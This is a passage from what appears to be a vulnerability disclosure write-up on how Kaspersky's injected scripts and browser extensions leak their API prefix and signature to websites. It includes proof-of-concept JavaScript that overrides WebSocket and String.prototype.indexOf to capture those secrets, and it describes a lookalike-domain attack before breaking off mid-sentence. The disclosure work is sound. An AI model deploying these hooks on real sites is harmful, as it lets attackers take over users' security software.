 {{< highlight js >}}
fetch(location.href).then(response => response.text()).then(text =>
{
  let match = /<script\b[^>]*src="([^"]+kaspersky[^"]+\/main.js)"/.exec(text);
  if (!match)
    return;

  let origWebSocket = WebSocket;
  WebSocket = function(url)
  {
    let prefix = url.replace(/(-labs\.com\/).*/, "$1");
    let signature = /-labs\.com\/([^\/]+)/.exec(url)[1];
    alert(`Kaspersky API available under ${prefix}, signature is ${signature}`);
  };
  WebSocket.prototype = origWebSocket.prototype;

  let script = document.createElement("script");
  script.src = match[1];
  document.body.appendChild(script);
});
{{< /highlight >}}

### From Internet Explorer extension

The Internet Explorer extension puts the bar slightly higher. While the scripts here also run in an environment that can be manipulated by the website, their execution is triggered directly by the extension. So there is no script URL that the website can find and execute again.

On the other hand, the script doesn't keep a copy of every function it uses. For example, `String.prototype.indexOf()` will be called without making sure that it hasn't been manipulated. No, this function doesn't get to see any secrets. But, as it turns out, the function calling it gets the `KasperskyLabs` namespace passed as first parameter which is where all the important info is stored.

{{< highlight js >}}
let origIndexOf = String.prototype.indexOf;
String.prototype.indexOf = function(...args)
{
  let ns = arguments.callee.caller.arguments[0];
  if (ns && ns.SIGNATURE)
    alert(`Kaspersky API available under ${ns.PREFIX}, signature is ${ns.SIGNATURE}`);

  return origIndexOf.apply(this, args);
};
{{< /highlight >}}

### From Chrome and Firefox extensions

Finally, there are Chrome and Firefox extensions. Unlike with the other scenarios, the content scripts here execute in an independent environment which cannot be manipulated by websites. So these don't need to do anything in order to avoid leaking sensitive data, they merely shouldn't be actively sending it to web pages. And you already know how this turns out: the Chrome and Firefox extensions leak API access as well.

The attack here abuses a flaw in the way content scripts communicate with frames they inject into pages. The URL Advisor frame is easiest to trigger programmatically, so this attack has to be launched from an HTTPS website with a host name like `www.google.malicious.com`. The host name starting with `www.google.` makes sure that URL Advisor is enabled and considers the following HTML code a search result:
